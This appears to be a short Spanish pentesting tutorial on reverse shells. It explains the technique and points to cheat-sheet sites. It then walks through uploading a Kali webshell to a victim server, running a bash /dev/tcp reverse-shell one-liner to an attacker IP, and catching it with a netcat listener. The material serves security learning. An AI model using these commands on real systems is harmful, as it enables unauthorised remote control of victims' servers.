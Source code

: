 <h1 align="center">REVERSE SHELL</h1>

Una **reverse shell** (o shell inversa) es una técnica utilizada en la ciberseguridad para obtener acceso remoto a un sistema objetivo. A diferencia de una shell tradicional, en la que un atacante se conecta directamente al sistema objetivo, en una reverse shell el sistema comprometido se conecta de vuelta al atacante. Esto se usa a menudo para eludir firewalls y sistemas de detección que permiten conexiones salientes pero no entrantes.

# Donde adquirir las reverse shells

<https://www.revshells.com/>

<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

# Ejemplo de explotación a través de una reverse shells

1) Existe una ruta en el kali que contiene distintas webshells que nos permitirán ejecutar comandos a través del servidor web de la máquina víctima:

- `/usr/share/webshells`

2) Esta webshell tendremos que pasarsela a la maquina victima y podremos ejecutar una reverse shell a través de la web

3) Podemos ejecutar el siguiente comando en la webshell que hemos subido al servidor web de la maquina victima:

- `bash -c "sh -i >& /dev/tcp/192.168.100.5/4444 0>&1"`

4) Desde el kali nos ponemos a la escucha con netcat

- `nc -lvnp \*puerto especificado en el exploit\*`

5) Si se ha lanzado de forma correcta obtendremos la siguiente shell en la terminal:
![image](https://github.com/user-attachments/assets/307cb1b1-bc33-414b-b7ed-8831deeac6d5)

